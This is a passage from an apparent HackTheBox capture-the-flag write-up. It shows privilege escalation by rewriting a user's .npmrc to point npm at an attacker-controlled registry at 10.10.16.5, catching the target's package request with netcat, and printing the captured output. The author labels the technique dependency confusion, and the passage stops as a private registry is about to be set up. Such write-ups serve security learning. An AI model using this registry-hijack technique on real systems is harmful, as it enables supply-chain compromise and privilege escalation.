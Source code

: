 Looking at `~/.npm` made me notice:

```shell
cat /home/kavi/.npmrc
# registry=http://127.0.0.1:4873/
```

So the local app at `/opt/app` will install dependencies from a local registry:

```shell
grep -ai require /opt/app/index.js
# const http = require('http')
# const fs = require('fs')
# //var logger = require('db-logger')
# var logger = require('loglevel')
```

Now we can point NPM to our own server and host a malicious version of `loglevel` with:

```shell
echo 'registry=http://10.10.16.5:4873/' > /home/kavi/.npmrc
```

Listen on our side and run the app with:

```shell
# attacker
nc -lvn 10.10.16.5 4873
# target
sudo /opt/app/startup.sh
```

It works!

```
Ncat: Connection from 10.10.11.165.
Ncat: Connection from 10.10.11.165:49504.
GET /loglevel HTTP/1.1
accept-encoding: gzip
version: 3.5.2
accept: application/json
referer: install loglevel
npm-session: 42f835f5666b8b4d
user-agent: npm/3.5.2 node/v8.10.0 linux x64
host: 10.10.16.5:4873
Connection: keep-alive
```

```
[+] Installing loglevel
▌ ╢░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░
```

This is called a ["dependency confusion attack"][snyk-dca].

### Creating a private registry

This is well documented and most easy with Docker:


[author-profile]: https://app.hackthebox.com/users/389926
[erms-repo]: https://www.sourcecodester.com/php/15160/simple-exam-reviewer-management-system-phpoop-free-source-code.html
[frontpage]: images/frontpage.png
[erms-sqli]: https://www.exploit-db.com/exploits/50725
[oretnom23]: https://www.google.com/search?q=oretnom23+exam+php
[sfms-admin-login]: images/sfms-admin-login.png
[sfms-sqli]: https://www.exploit-db.com/exploits/48437
[snyk-dca]: https://snyk.io/blog/detect-prevent-dependency-confusion-attacks-npm-supply-chain-security/
[student-portal]: images/student-portal.png